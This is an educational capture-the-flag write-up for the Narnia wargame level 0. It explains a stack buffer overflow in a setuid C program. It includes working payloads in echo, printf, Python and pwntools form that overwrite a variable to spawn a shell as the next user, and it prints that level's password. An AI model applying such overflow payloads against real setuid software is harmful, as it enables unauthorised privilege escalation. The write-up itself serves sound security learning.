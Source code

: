 Introduction
============

There are two files related to this level.
The first one is named ```/narnia/narnia0```. It's a [setuid](https://en.wikipedia.org/wiki/Setuid) binary which we obviously have to [exploit](https://en.wikipedia.org/wiki/Exploit_(computer_security)) in order to gain access to the next level:

```
narnia0@narnia:~$ ls -al /narnia/narnia0
-r-sr-x--- 1 narnia1 narnia0 7460 Oct 23 04:22 /narnia/narnia0
```

The other file which is related to this level is a [C](https%3A%2F%2Fen.wikipedia.org%2Fwiki%2FC_(programming_language)&usg=AOvVaw3vI8WzyDIw4n3m42_eXFeI source code) file which intention is to explain us the internal workflow of the binary ```/narnia/narnia0```:

```
narnia0@narnia:~$ cat /narnia/narnia0.c

#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef)
		system("/bin/sh");
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```

When looking at the code we can see that there are two variables. One is named ```val``` and has a value of ```0x41414141``` already assigned. The other one is a char array named ```buf``` with a size of 20 bytes. After two lines of informational output using ```printf()``` there is a call to ```scanf()``` which reads in 24 bytes and stores them into the char array ```buf[20]```. Or in other words: when the program is executed, the user can input more data than the input buffer can handle. That's a so-called [Buffer Overflow](https://en.wikipedia.org/wiki/Buffer_overflow). More precisely it's a so-called [Stack Overflow](https://en.wikipedia.org/wiki/Stack_buffer_overflow) which has first and foremost been described by a hacker named Aleph One in his legendary article [Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html).

The aim of ```/narnia/narnia0``` is to input the right amount and type of data in order to overflow the char buffer ```buf[20]``` and therefore overwrite the value of ```0x41414141``` which is stored in the variable ```val``` to the new value of ```0xdeadbeef```. 
If this has been achieved, a new shell is opened with the access rights of the next level's user ```narnia1```. This will let us execute additional commands in order to gain narnia1's password.


Theory
======

Let's start with some theory first in order to understand [Stack based Buffer Overflows](https://en.wikipedia.org/wiki/Stack_buffer_overflow) and the [x86 architecture](https://en.wikipedia.org/wiki/X86). Both is required to successfully overflow the buffer with reasonable data in order to modify the program's workflow. Speaking of *reasonable* data, modern computer systems include some techniques to prevent and/or reduce the risk of buffer overflows. But since the narnia wargame doesn't use any [stack protection techniques](https://unix.stackexchange.com/questions/66802/disable-stack-protection-on-ubuntu-for-buffer-overflow-without-c-compiler-flags) we don't have to care about this right now. 

As mentioned before, the hardware platform where the narnia wargame is running on is x86. More precisely it's [x86_64](https://en.wikipedia.org/wiki/X86-64). Let's see if that's true:

```
narnia0@narnia:~$ uname -i
x86_64
```

The operating system of the narnia wargame is [Linux](https://en.wikipedia.org/wiki/Linux), of course this can be checked as well:

```
narnia0@narnia:~$ uname -o
GNU/Linux
```

And since we are already in the process of gathering required information about our target, let's determine some more details about the setuid binary file named ```/narnia/narnia0``` which we later want to exploit: 

```
narnia0@narnia:~$ file /narnia/narnia0
/narnia/narnia0: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=dd54e629928af495112df911bb651846c281d5d8, not stripped
```

As we can see it's a 32-bit compiled Linux [ELF](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format) binary [executable](https://en.wikipedia.org/wiki/Executable) file which is [dynamically linked](https://stackoverflow.com/questions/311882/what-do-statically-linked-and-dynamically-linked-mean) and is [not stripped](https://unix.stackexchange.com/questions/2969/what-are-stripped-and-not-stripped-executables-in-unix). This means that we can let it run inside of a [debugger](https://en.wikipedia.org/wiki/Debugger) or a similar analyzis tools in order to take a look into the program's internals and/or to understand its workflow compared to the source code.


Preparation
===========

After some basic grey theory let's start with some experiments in order to learn and understand more required theory as well introducing useful tools and techniques.

We start by executing the binary ```/narnia/narnia0``` for the first time. As we already have analyzed, the program let's you enter arbitrary text that gets stored in a buffer that has a size of 20 bytes. Let's start doing this with less than 20 characters just to see what happens. 
Since we are too lazy to (repeatedly) type 10 or more characters, we [pipe](https://en.wikipedia.org/wiki/Pipeline_(Unix)) our input into the program's [```STDIN```](https://en.wikipedia.org/wiki/Standard_streams) using some [Python](https://en.wikipedia.org/wiki/Python_(programming_language)) magic:

```
narnia0@narnia:~$ python -c 'print "B"*10' | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBB
val: 0x41414141
WAY OFF!!!!
```

What we can see ist that the char array ```buf[20]``` now contains 10 times the letter 'B' while the value of variable ```val``` remains 0x41414141. That's what we expected so far. 
Just a side note: The term ```0x41``` has a special meaning in cyber security. 0x41 is the [hexadecimal](https://en.wikipedia.org/wiki/Hexadecimal) representation of the letter 'A' as described in the [ASCII](https://en.wikipedia.org/wiki/ASCII) character encoding standard. The letter 'A' or its hexadecimal expression 0x41 are used to fill buffers in order to analyze a program's flow like we previously did. Using an 'A' or 0x41 is just some kind of a [convention](https://security.stackexchange.com/questions/18680/why-is-0x41414141-associated-with-security-exploits) because people found out that filling buffers with a sequence of identical characters simplifies looking for them in process memory later on. Since the pre-assigned value of ```val``` already contains a sequence of A's and therefore a sequence of 0x41's, we decided to fill the buffer ```buf``` with a sequence of the letter 'B' which is 0x42 in hexadecimal. This enables us to differenciate between the contents of the variable ```val``` and the contents of buffer ```buf[20]```. Let's open the program in the GNU Debugger (gdb) in order to visualize this behavior:

The expectation is that if we enter exactely these 20 characters, the buffer ```buf[20]``` gets filled with the characters and everything is fine.

```
narnia0@narnia:~$ python -c 'print "B"*20' | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBB
val: 0x41414100
WAY OFF!!!!
```

Solution
========

```
narnia0@narnia:~$ (echo -n -e "AAAAAAAAAAAAAAAAAAAA\\xef\\xbe\\xad\\xde";cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
id
uid=14000(narnia0) gid=14000(narnia0) euid=14001(narnia1) groups=14001(narnia1),14000(narnia0)
cat /etc/narnia_pass/narnia1
efeidiedae
```
Alternative using Bash's printf:
```
narnia0@narnia:~$ (printf '%.sB' {1..20}; printf '\xef\xbe\xad\xde'; cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ�
val: 0xdeadbeef
id
uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
cat /etc/narnia_pass/narnia1
efeidiedae
```
Alternative using Python:
```
narnia0@narnia:~$ (python -c 'print "B"*20 + "\xef\xbe\xad\xde"'; cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ�
val: 0xdeadbeef
id
uid=14001(narnia1) gid=14001(narnia1) groups=14001(narnia1)
cat /etc/narnia_pass/narnia1
efeidiedae
```
Alternative using [pwntools](https://github.com/Gallopsled/pwntools):

Copy the following code into a file named ```/tmp/exploit0.py```.
```
from pwn import *

context.update(arch='i386', os='linux')

payload  = cyclic(20)
payload += p32(0xdeadbeef)
print(payload)

p = process("/narnia/narnia0")
p.sendline(payload)
p.interactive()
```
Execute the previously created Python code:
```
narnia0@narnia:~$ python /tmp/exploit0.py
aaaabaaacaaadaaaeaaaﾭ�
[+] Starting local process '/narnia/narnia0': pid 1295
[*] Switching to interactive mode
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaabaaacaaadaaaeaaaﾭ�
val: 0xdeadbeef
$ id
uid=14001(narnia1) gid=14001(narnia1) groups=14001(narnia1)
$ cat /etc/narnia_pass/narnia1
efeidiedae
$ exit
```
